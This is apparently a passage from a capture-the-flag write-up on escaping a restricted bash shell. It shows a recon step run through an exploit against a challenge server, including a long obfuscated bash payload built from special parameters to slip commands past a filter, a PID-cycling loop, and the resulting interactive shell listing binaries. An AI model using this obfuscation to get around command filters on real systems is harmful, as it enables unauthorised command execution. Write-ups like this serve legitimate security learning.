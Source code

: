 So now that we can send arbitrary commands, what can we do?
Let's do a little recon:

## Reconaissance

```
Shell> ls /bin /usr/bin
[+] Opening connection to 35.198.107.77 on port 1337: Done
payload is: ${!#}<<<${!#}\<\<\<${!#}\\\<\\\<\\\<${!#}\\\\\\\<\\\\\\\<\\\\\\\<\\\\\\\$\\\\\\\'\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)$#\\\\\\\\\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)${##}\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)$#\\\\\\\\\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)${##}\\\\\\\\${##}\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\$\\\(\\\(${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\$\'\\$$\'${##}\\\)\\\)\\\\\\\'
current pid: 9
current pid: 10
current pid: 11
...
current pid: 50
current pid: 51
current pid: 52
sending exploit
[*] Switching to interactive mode
min-bash> /bin:
bash
cat
cp
dash
dd
dir
echo
false
grep
ln
ls
mkdir
mv
pwd
rm
rmdir
sed
sh
shell
su
```